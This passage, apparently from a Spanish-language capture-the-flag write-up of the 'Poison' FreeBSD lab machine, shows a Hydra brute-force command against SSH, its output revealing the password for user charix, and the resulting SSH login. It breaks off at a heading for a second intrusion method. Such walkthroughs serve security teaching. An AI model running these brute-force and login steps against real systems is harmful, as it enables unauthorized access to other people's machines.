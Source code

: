 Como tenemos un `listado` de `usuarios` y una `contraseña` he hecho un `ataque de fuerza bruta` con `hydra` contra el `servicio` de `SSH` de la máquina víctima y he obtenido unas `credenciales` válidas `charix:Charix!2#4%6&8(0`

```
# hydra -L users.txt -p 'Charix!2#4%6&8(0' 10.129.1.254 ssh -t 4 -V
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-03 22:54:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 30 login tries (l:30/p:1), ~8 tries per task
[DATA] attacking ssh://10.129.1.254:22/
[22][ssh] host: 10.129.1.254   login: charix   password: Charix!2#4%6&8(0
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-03 22:58:11
```

Nos `conectamos` mediante `SSH` a la máquina víctima

```
# ssh charix@10.129.1.254   
(charix@10.129.1.254) Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Having trouble using fetch through a firewall? Try setting the environment
variable FTP_PASSIVE_MODE to yes, and see fetch(3) for more details.
csh: The terminal database could not be opened.
csh: using dumb terminal settings.
charix@Poison:~ % whoami
charix
```
## Intrusión (Second Method)
